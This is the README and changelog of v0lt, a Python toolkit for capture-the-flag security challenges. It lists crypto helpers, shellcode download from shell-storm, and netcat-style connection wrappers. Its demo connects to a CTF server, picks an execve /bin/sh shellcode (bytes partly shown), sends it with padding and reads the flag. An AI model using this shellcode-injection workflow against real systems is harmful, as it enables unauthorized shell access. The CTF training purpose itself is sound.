 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Libmagic
* Python3    
  * BeautifulSoup    
  * Requests    
  * filemagic    
  * hexdump    

####Installation:   
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (XOR, inverse XOR)    
    * Usual conversions (bytes, strings, hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more


# Changelog

Only includes major features and changes. Bugfixes and
minor changes are omitted.

## 1.3

- Lots of fixes again
- Hexeditor on its way

## 1.2

- Lots of documentation/bugs/framework fixes
- Added bruteforce
- Added linux utils
- Began hexeditor
- Shellhack fixes
- Alert messages

## 1.0

- Lots of documentation fixes
- Lots of bugfixes
- Added shellhack (shellcodes stuff)
- Added crypto utils
- Added network utils
- Fixed project tree

